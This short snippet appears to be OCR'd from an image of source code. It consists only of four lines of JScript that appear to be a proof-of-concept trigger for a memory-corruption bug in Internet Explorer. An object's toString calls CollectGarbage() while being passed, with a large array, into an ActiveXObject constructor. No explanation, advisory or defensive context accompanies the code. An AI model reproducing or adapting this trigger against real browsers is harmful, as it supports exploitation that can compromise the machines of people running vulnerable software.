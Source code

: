 
var arr1 = new Object();
arr1.toString = function(){ CollectGarbage(); };
var arrs = new Array(0x7fff);
var z = new ActiveXObject(arrs, [arr1]);
